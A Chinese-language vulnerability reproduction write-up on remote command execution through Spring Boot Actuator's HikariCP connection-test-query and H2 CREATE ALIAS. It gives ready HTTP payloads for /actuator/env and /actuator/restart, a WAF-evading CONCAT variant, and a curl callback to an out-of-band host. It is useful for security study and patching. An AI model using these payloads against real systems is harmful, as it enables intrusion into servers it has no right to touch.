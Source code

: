 ```yaml
---
title: Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞
id: zhfly3133
---
```


# Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞

## 一、漏洞简介

Spring Boot 2.x默认使用的HikariCP数据库连接池提供了一个可以RCE的变量。这个变量就是`spring.datasource.hikari.connection-test-query`。这个变量与HikariCP中的`connectionTestQuery`配置相匹配。根据文档，此配置定义的是在从池中给出一个连接之前被执行的query，它的作用是验证数据库连接是否处于活动状态。简言之，无论何时一个恶心的数据库连接被建立时，`spring.datasource.hikari.connection-test-query`的值将会被作为一个SQL语句执行。然后利用SQL语句中的用户自定义函数，进行RCE。

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

漏洞环境

> https://github.com/ianxtianxt/springboot_actuator

### H2 CREATE ALIAS 命令

H2数据库引擎是一个流行的java开发数据库，非常容易与Spring Boot集成，仅仅需要如下的一个dependency。

```
<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <scope>runtime</scope>
</dependency> 
```

在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE ALIAS创建一个java函数然后调用它，示例如下:

```
CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
CALL GET_SYSTEM_PROPERTY('java.class.path'); 
```

仿照这个，创建命令执行的java函数可以如下:

```
String shellexec(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
    if (s.hasNext()) {
        return s.next();
    } throw new IllegalArgumentException(); 
} 
```

那么RCE所需的SQL语句即:

```
CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator'); 
```

与1.x类似，在端点`/actuator/env`通过POST方法进行环境变量的赋值。payload为

```
POST /actuator/env HTTP/1.1

content-type: application/json `{“name”:“spring.datasource.hikari.connection-test-query”,“value”:“CREATE ALIAS EXEC AS ‘String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}’; CALL EXEC(’/Applications/Calculator.app/Contents/MacOS/Calculator’);”}` 
```

执行RCE的SQL语句已经构建好，接下来就是触发一个新的数据库连接，通过向端点`/actuator/restart`发送POST请求，即可重启应用出发新的数据库连接。请求如下

```
POST /actuator/restart HTTP/1.1

content-type: application/json `{}` 
```

命令执行的结果:

![image](../img/1c996ac7dd7e21736b1f8fbfdb2f54ce.png)

### 针对WAFs

在这点上，可能会遇到常见的WAF过滤器，特别是对exec的过滤。然而，像这样的一个payload可以很容易地使用多种字符串拼接技术来绕过。比如使用CONCAT或HEXTORAW命令。上面的payload可写成

```
CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
CALL EXEC('curl  http://x.burpcollaborator.net'); 
```

### 有限的执行上下文的命令注入

`spring.datasource.hikari.connection-test-query`是用来验证连接到数据库的连接是否存活。如果语句失败，应用会相信数据库无法连接并不再返回其他的数据库查询。攻击者可利用此来获得一个blind RCE。

## 参考链接

> https://xz.aliyun.com/t/7480#toc-3